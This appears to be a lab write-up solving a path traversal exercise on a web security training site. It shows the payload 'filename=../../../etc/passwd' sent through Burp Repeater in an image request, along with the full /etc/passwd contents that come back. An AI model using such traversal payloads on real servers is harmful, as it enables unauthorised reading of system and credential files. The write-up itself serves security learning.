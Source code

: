 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235480198-3b055aee-e3d2-4198-bb2f-4e7fa55efd3d.png)


## Solution :

When we load the page, we get several  items with its images, a request is being made to retreive the images from the server.

The captured request looks like ,

![image](https://user-images.githubusercontent.com/67383098/235481992-86af3cc4-3dac-46fb-b1a0-70fd445365a2.png)

Send the request to  *Repeater*.

Now in the `filename` parameter we have to test each payload by traversing back to find the `/etc/passwd` file.

When we give the payload as `filename=../../../etc/passwd` , we get the contents of **/etc/passwd**

```bash
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
avahi:x:110:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:112:119::/var/lib/geoclue:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:115:123:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:116:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

![image](https://user-images.githubusercontent.com/67383098/235482656-47b43ae8-41d9-44fc-b72c-fd9795df5fbf.png)
